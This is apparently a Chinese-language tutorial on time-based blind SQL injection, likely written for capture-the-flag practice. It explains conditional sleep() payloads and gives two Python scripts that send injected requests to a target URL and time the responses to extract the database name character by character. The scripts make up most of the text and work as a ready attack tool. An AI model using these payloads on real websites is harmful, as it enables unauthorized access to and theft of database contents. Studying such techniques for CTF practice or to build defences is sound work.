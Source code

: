 我们在没有会显得情况下，既不能根据我们的布尔盲注，进行我们的判断，我们就只能采用时间忙著来进行我们的判断。
对于这一类题目，我们的思路是，采用我们的条件是否为真来决定我们是否执行我们的 `sleep()` 函数来判断，我们常用的语句结构如下所示：
```sql
select if((1=1),sleep(5),0)
```

其中我们的第一个括号要填写我们的想要查询的内容。

或者我们也可以采用下面的结构：
```cpp
select sleep(10*(1=1))
```

其中，我们的 10乘的元素是我们的一个条件，如果满足条件就会直接乘，否则我们不处理。

## Python 脚本
```python
import requests

import time

url="https://ww"

select="select database()"

result=""

for i in range(1,100):

    for j in range(32,128):

        condition=f"ascii(substr(({select}),{i},1))={j}"

        payload=f"123123 and sleep(5*({condition}))%23"

        start=int(time.time())

        r=requests.get(url=url+payload)

        end=int(time.time())

        if(end-start>=3):

            result+=chr(j)

            print("[+]",result)

            break

        if j==127:

            print("完成")

            break
```

优化相关时间：
```python
for i in range(1,100):

    for j in range(32,128):

        condition=f"ascii(substr(({select}),{i},1))={j}"

        payload=f"123123 and sleep(5*({condition}))%23"

        try:
	
	        r=requests.get(url=url+payload,timeout=5)

        except:
        

        

            result+=chr(j)

            print("[+]",result)

            break

        if j==127:

            print("完成")

            break
```